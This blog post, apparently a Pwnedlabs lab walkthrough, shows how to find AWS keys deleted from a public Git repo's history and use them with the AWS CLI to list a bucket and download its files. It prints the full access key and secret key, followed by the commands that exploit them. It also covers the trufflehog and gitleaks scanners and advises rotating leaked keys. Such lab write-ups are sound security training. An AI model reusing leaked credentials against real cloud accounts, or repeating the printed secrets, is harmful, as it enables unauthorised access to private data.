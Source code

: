 ```yaml
---
author: Nithissh S
pubDatetime: 2024-02-14
modDatetime: 2024-02-14
title: Hunt for secrets in Git repos - Pwnedlabs walkthrough
slug: hunt-for-secrets-in-git-repos
featured: false
draft: false
tags:
  - Pwnedlabs
  - Cloud Pentest
description:
  Understanding the risks of public exposed organization's github repos 
---
```


## Hunt for secrets on git repos

  

| Repo Name |
| --- |
| [https://github.com/huge-logistics/cargo-logistics-dev](https://github.com/huge-logistics/cargo-logistics-dev) |

  

## Scenario

  

While conducting OSINT on a lesser-known dark web forum as part of assessing your client's threat landscape, you stumble upon a thread discussing high-value targets. Among the chaos of links and boasts, a user casually mentions discovering an intriguing GitHub repository belonging to your client, the international titan, Huge Logistics. A couple of underground researchers hint at having found something but remain cryptic. Your instincts tell you there's more to uncover. Your objective? Dive deep into this repository, trace any associated infrastructure, and uncover any vulnerabilities before they become tomorrow's headline. The clock is ticking. Will you outsmart the adversaries?

  

## To be more clear

We have to assess the organization github repository for any possibility of credentials leakage where we gonna try it out in both the manual and automated way 

  

## Let’s start out with the manual approach 

  

First and foremost, we will clone the github repository using the command `git clone https://github.com/huge-logistics/cargo-logistics-dev`and let’s start out our analysis process

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % git clone https://github.com/huge-logistics/cargo-logistics-dev
Cloning into 'cargo-logistics-dev'...
remote: Enumerating objects: 1578, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 1578 (delta 2), reused 2 (delta 1), pack-reused 1571
Receiving objects: 100% (1578/1578), 50.12 MiB | 4.96 MiB/s, done.
Resolving deltas: 100% (448/448), done.
```

  

After cloning and going into that repo, we can run `git log`  in order to check for any sensitive actions being performed like where they had deleted or removed any files and found there is action been performed which is `Delete log-s3-test directory` and with commit hash as `ea1a7618508b8b0d4c7362b4044f1c8419a07d99`

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % git log
commit 327256a97593085dcee75e70df5f80c51a30c267 (HEAD -> main, origin/main, origin/HEAD)
Author: Ian Austin <iandaustin@outlook.com>
Date:   Wed Jul 5 17:56:49 2023 +0100

    Update

commit ea1a7618508b8b0d4c7362b4044f1c8419a07d99
Author: egre55 <34132245+egre55@users.noreply.github.com>
Date:   Wed Jul 5 17:46:16 2023 +0100

 Delete log-s3-test directory
```

  

Suspecting the particular action, we can able to view the log using the command `git show`  along with the commit hash which shows that there is big change been made and where the `AWS Access key`  and `Secret key`  being disclosed in the following filename `a/log-s3-test/log-upload.php`

  

![](../../assets/images/gitleaks-1.png) 

  

Well, let’s configure the following credentials through `awscli`  and with custom profile called `gitleaks`  

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws configure --profile gitleaks
AWS Access Key ID [None]: AKIAWHEOTHRFSGQITLIY
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```

  

After configuring the credentials, we found that is credentials belongs to `dev-test`  through `aws sts`  module 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws sts get-caller-identity --profile gitleaks
{
    "UserId": "AIDAWHEOTHRF24EMR3SXJ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/dev-test"
}
```

  

What can we do with that credentials ? we know that it belongs to user called `dev-test`  but onething to note is we didn’t observe that this user have access to s3 bucket named `huge-logistics-transact` where you can check it into the git logs again and this are the lines of the code for your reference if you feel lazy to scroll up 

  

```diff
-// Send a PutObject request and get the result object.
-$key = 'transact.log';
-
-$result = $s3->putObject([
-       'Bucket' => 'huge-logistics-transact',
-       'Key'    => $key,
-       'SourceFile' => 'transact.log'
-]);
-
-// Print the body of the result by indexing into the result object.
-var_dump($result);
```

  

Enumerating s3 bucket using `aws s3`  module in `aws cli`  with the following command `aws s3 ls s3://huge-logistics-transact` and well we forgot we need to include `--profile gitleaks`  where we initially created a custom profile with the leaked credentials we have.. we found our `flag.txt`  here and through the `aws s3 cp`  we can copy it to our local machine 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 ls s3://huge-logistics-transact --profile gitleaks
2023-07-05 21:23:50         32 flag.txt
2023-07-04 22:45:47          5 transact.log
2023-07-05 21:27:36      51968 web_transactions.csv
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 cp s3://huge-logistics-transact/flag.txt ./ --profile gitleaks
download: s3://huge-logistics-transact/flag.txt to ./flag.txt    
nits@FWS-CHE-LT-8869 cargo-logistics-dev % cat flag.txt
fe108d6a1a0937b0a7620947a678aabf%     
```

  

Well, It doesn’t end here we can also look into file named `web_transcations.csv`  and found that it is disclosing some kind of sensitive informations like `ip address, name and id of the user`  which is obviously not meant to be 

  

![](../../assets/images/gitleaks-2.png) 
  

  

## Automated way of finding the leaks 

  

We can use a tool called `trufflehog`  well In my case, I’m using MacOS where you can install using the command `brew install trufflehog`  or you can also use `gitleaks`

  

![](../../assets/images/gitleaks-3.png) 


  

Now run the following trufflehog git `https://github.com/huge-logistics/cargo-logistics-dev` and In the matter of seconds, we found our verified results with the valid username that those credentials belongs to well in our case, It is `dev-test` 

  

![](../../assets/images/gitleaks-4.png) 
 

  

Well the learning outcome is , That’s how we can analyse the organization github repo which are exposed externally for secret keys and In conclusion, we have to reduct our keys if you are deleting the file and rotate the leaked credentials